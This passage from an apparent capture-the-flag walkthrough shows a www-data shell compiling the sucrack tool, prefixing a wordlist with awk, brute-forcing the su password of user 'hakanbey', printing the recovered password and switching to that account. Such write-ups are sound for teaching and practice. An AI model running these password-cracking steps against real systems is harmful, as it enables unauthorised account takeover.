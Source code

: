 ```text
config.status: executing depfiles commands

sucrack configuration
---------------------
sucrack version         : 1.2.3
target system           : LINUX
sucrack link flags      : -pthread
sucrack compile flags   : -DSTATIC_BUFFER  -DLINUX -DSUCRACK_TITLE="\"sucrack 1.2.3 (LINUX)\""

www-data@ubuntu:/tmp/sucrack$ make
make  all-recursive
make[1]: Entering directory '/tmp/sucrack'
Making all in src
make[2]: Entering directory '/tmp/sucrack/src'
gcc -DHAVE_CONFIG_H -I. -I..    -Wall -O2 -D_GNU_SOURCE -DSTATIC_BUFFER  -DLINUX -DSUCRACK_TITLE="\"sucrack 1.2.3 (LINUX)\"" -g -O2 -MT sucrack-sucrack.o -MD -MP -MF .deps/sucrack-sucrack.Tpo -c -o sucrack-sucrack.o `test -f 'sucrack.c' || echo './'`sucrack.c
In file included from sucrack.c:41:0:
<SNIP>
mv -f .deps/sucrack-rules.Tpo .deps/sucrack-rules.Po
gcc -Wall -O2 -D_GNU_SOURCE -DSTATIC_BUFFER  -DLINUX -DSUCRACK_TITLE="\"sucrack 1.2.3 (LINUX)\"" -g -O2 -pthread  -o sucrack sucrack-sucrack.o sucrack-worker.o sucrack-dictionary.o sucrack-pty.o sucrack-su.o sucrack-rewriter.o sucrack-util.o sucrack-stat.o sucrack-rules.o  
make[2]: Leaving directory '/tmp/sucrack/src'
make[2]: Entering directory '/tmp/sucrack'
make[2]: Leaving directory '/tmp/sucrack'
make[1]: Leaving directory '/tmp/sucrack'
www-data@ubuntu:/tmp/sucrack$ 
```

Now we can try it:

```text
www-data@ubuntu:/tmp/sucrack/src$ sucrack -u hakanbey -w 100 wordlist.txt
```

However trying the wordlist didn't work. Then I looked back at the other passwords we found and noticed they both had the same prefix. So I tried adding that to all passwords in the wordlist:

```text
www-data@ubuntu:/tmp/sucrack/src$ awk '{print "123adana" $0}' wordlist.txt > new-wordlist.txt
```

Now I tried it again:

```text
www-data@ubuntu:/tmp/sucrack/src$ sucrack -u hakanbey -w 100 new-wordlist.txt
password is: 123adanasubaru
```

That worked and we have the user hakenbeys password. Let's su to them:

```text
www-data@ubuntu:/tmp$ su hakanbey
Password: 
hakanbey@ubuntu:/tmp$ 
```
